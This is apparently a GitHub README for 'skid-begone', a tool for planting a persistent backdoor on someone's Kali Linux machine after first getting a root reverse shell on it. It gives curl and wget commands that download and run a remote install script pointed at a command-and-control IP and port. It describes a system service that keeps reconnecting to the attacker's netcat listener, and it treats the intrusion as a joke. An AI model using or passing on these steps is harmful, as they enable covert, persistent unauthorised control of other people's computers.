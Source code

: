 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

For your best enjoyment, please make sure that the skid in this case is running Kali on real hardware.

I hope to see your post on r/masterhacker using my script.

## Using the backdoor

### Prerequisites

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell
- skid must run Kali (other distros *might* work too)

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

By "command and control server" I mean you, the one reading this right now, listening on the port you specified during install of the backdoor, using netcat (here's the command: `nc -vlp <your port>`).

### Uninstalling

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh | sudo bash
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/undo.sh -O - | sudo bash
```